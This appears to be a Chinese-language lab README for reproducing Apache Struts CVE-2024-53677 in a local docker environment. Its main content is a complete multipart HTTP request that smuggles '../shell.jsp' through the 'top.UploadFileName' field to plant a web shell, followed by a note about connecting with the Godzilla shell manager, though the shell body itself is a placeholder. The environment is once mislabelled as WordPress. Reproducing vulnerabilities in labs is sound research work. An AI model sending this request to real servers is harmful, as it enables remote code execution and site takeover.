



# Apache Struts FileUploadInterceptor 文件上传漏洞（CVE-2024-53677）复现及漏洞环境

Apache Struts 的文件上传逻辑中存在漏洞，若代码中使用了FileUploadInterceptor，当进行文件上传时，攻击者可能构造恶意请求利用目录遍历等上传文件至其他目录。如果成功利用，攻击者可能能够执行远程代码、获取敏感数据、破坏网站内容或进行其他恶意活动。

## 测试环境

执行如下命令启动一个WordPress漏洞环境：

```
docker compose up -d
```

访问 http://127.0.0.1:8080/upload.action 发现文件上传接口



环境搭建好后首先随意上传一张图片，这一步的步骤是创建一个uploads文件夹，方便后续漏洞利用。


## 影响版本

- Struts 2.0.0 - Struts 2.3.37
- Struts 2.5.0- Struts 2.5.33
- Struts 6.0.0- Struts 6.3.0.2

## 漏洞复现

> [!NOTE]
>
> 首先需要明确一点，为了简化本次漏洞复现的复杂度，本次没有对文件上传的后缀进行校验。这就意味着如果你直接上传恶意代码到uploads文件夹也是可以成功的。但为了学习了解这个漏洞，你需要做的是把恶意文件上传到uploads的上一级目录即ROOT目录下。

```http
POST /upload.action HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: multipart/form-data; boundary=---------------------------10646135771952845599584984154
Content-Length: 363

-----------------------------10646135771952845599584984154
Content-Disposition: form-data; name="Upload"; filename="test.txt"
Content-Type: text/plain

PAYLOAD
-----------------------------10646135771952845599584984154
Content-Disposition: form-data; name="top.UploadFileName";

../shell.jsp
-----------------------------10646135771952845599584984154--
```



成功连上哥斯拉


